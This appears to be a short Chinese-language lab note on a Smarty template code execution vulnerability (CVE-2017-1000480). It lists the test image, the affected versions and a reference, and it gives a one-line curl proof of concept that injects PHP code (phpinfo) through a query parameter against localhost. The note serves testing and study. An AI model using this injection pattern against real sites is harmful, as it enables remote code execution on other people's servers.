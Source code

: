 ## 代码执行漏洞

测试镜像

* src/smarty/3.1.20/

影响版本

* <= 3.1.32

参考链接

* [Smarty <= 3.1.32 代码执行漏洞分析—【CVE-2017-1000480】](https://mp.weixin.qq.com/s/MkXv1wU9qIfyGq4izH2VwQ)

Poc

```
curl http://127.0.0.1/?test=*/;phpinfo();/*
```

